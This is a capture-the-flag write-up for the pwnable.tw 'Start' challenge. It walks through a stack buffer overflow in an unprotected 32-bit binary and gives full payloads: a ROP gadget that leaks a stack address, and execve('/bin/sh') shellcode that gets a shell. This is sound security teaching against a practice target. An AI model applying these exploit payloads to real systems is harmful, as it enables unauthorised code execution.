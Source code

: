 # pwnable.tw - Start

Origin challenge link: https://pwnable.tw/challenge/

You can also download challenge file from my repo: [start.zip](start.zip)

There will be 1 file in zip:

- start

Download the file and let's start!

# 1. Find bug

First, we will use `file` to check for basic infomation:

```
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

This is a 32-bit file without being stripped. Next, we will use `checksec` to check the security of challenge file:

```
$ checksec start
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

We can see that none of them are on, nice! So let's fire up gdb and see how it works. First, the program doesn't sub esp but it will push instead:

```
   0x0804806e <+14>:	push   0x3a465443
   0x08048073 <+19>:	push   0x20656874
   0x08048078 <+24>:	push   0x20747261
   0x0804807d <+29>:	push   0x74732073
   0x08048082 <+34>:	push   0x2774654c
```

After pushing those string, program will print out the pushed string `Let's start the CTF:`:

```
   0x08048087 <+39>:	mov    ecx,esp        # String to be print out
   0x08048089 <+41>:	mov    dl,0x14        # Number of bytes will print
   0x0804808b <+43>:	mov    bl,0x1         # stdout
   0x0804808d <+45>:	mov    al,0x4         # syscall write
   0x0804808f <+47>:	int    0x80
```

Then, it will read in the data with number of byte is longer than the string above. The input string will overwrite the pushed string `Let's start the CTF:` on stack:

```
   0x08048091 <+49>:	xor    ebx,ebx        # stdin
   0x08048093 <+51>:	mov    dl,0x3c        # Number of byte read
   0x08048095 <+53>:	mov    al,0x3         # syscall read
   0x08048097 <+55>:	int    0x80
```

At the epilouge, it just add esp 0x14 to restore stack and return:

```
   0x08048099 <+57>:	add    esp,0x14
   0x0804809c <+60>:	ret
```

Input up to 0x3c but just add 0x14 show us that it's a **Buffer Overflow**:

![buffer_overflow.png](images/buffer_overflow.png)

And that's all we can find. Let's move on next part: Brainstorming!

# 2. Brainstorming

For these challenges, we usually `objdump` the binary because it may contain some useful function. After looking at `objdump`, I find out we have nothing else. So our next idea is to use ROP. 

Why we need to use ROP while we can input our shellcode? And with NX is off, our shellcode will be executed, is it right? Yes it's right. But the shellcode can be executed via a pointer point to our shellcode, not executed our shellcode it self. So our goal is to find out the pointer which point to our shellcode, then pass it to eip and our shellcode will be executed.

- Summary:

  1. Leak address

  2. Get shell

# 3. Exploit

### Stage 1: Leak address

So let's check ROP to see what we have:

![ROPgadget.png](images/ROPgadget.png)

Nothing's interesting except the highlighted ROP, it will help us print out 0x14 bytes of data on esp as you can see `mov ecx, esp`. When in GDB, we can also see that there will be a lot of stack address:

![stack_at_ret.png](images/stack_at_ret.png)

So leaking one of them will help us get the pointer point to our shellcode. And that ROP gadget is at `_start+38`, which means after that print out, it will get input from us again. So our first payload will look like this:

```
payload1 = b'A'*20                   # Padding to eip
payload1 += p32(0x08048086)          # ROP gadget
```

Running that first payload and we will get leak stack address, also we are prompted to input again

![leak_stack_addr.png](images/leak_stack_addr.png)

So we will write a script and take that address, then calculate the address that we will input the second time:

When we check in GDB after `int 0x80` of syscall write, we know that the leaked address is at `$esp + 0x8`:

![stack_leak_in_gdb.png](images/stack_leak_in_gdb.png)

When we are prompted to input the second time, we will just input string of `cyclic(0x14)` in to check at the second `ret`, where is our shellcode (string of `cyclic(0x14)`):

![shellcode_placed.png](images/shellcode_placed.png)

We can see that ecx contains the begining of our shellcode. With the leaked address, we will calculate the offset then the address of the begining of shellcode, then we pass it to eip. Offset can be calculate as 

```
offset = <Leak address> - <Begining of shellcode address>
offset = 0xff9e19e0 - 0xff9e19dc       # offset = 4
```

That's nice! We get everything we need. Let's move to stage 2.

### Stage 2: Get shell

Now we have address point to our shellcode, we just simply input our shellcode at the second input. But before we continue, we need to write string `/bin/sh\x00` somewhere and then move the pointer point to that string to ebx to execute execve.

The ideal place is after eip. When it `ret`, it will pop the address of our shellcode eip and the stack will add 0x4, which esp now contain pointer point to our string `/bin/sh\x00`. So in shellcode, we will make it move address of esp after second ret (contains string `/bin/sh\x00`) to ebx.

```
stack_leak = u32(p.recv(4))

payload2 = asm(''.join([
	'mov al, 0xb\n',
	'mov ebx, esp\n',
	'xor ecx, ecx\n', 
	'xor edx, edx\n',
	'int 0x80\n' 
	]), os='linux', bits=32)
payload2 = payload2.ljust(20, b'\x00')
payload2 += p32(stack_leak-4)
payload2 += b'/bin/sh\x00'
```

Running it will be like this (address of stack will be change):

![at_second_ret.png](images/at_second_ret.png)

So that's all and we get the shell. Full code [here](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)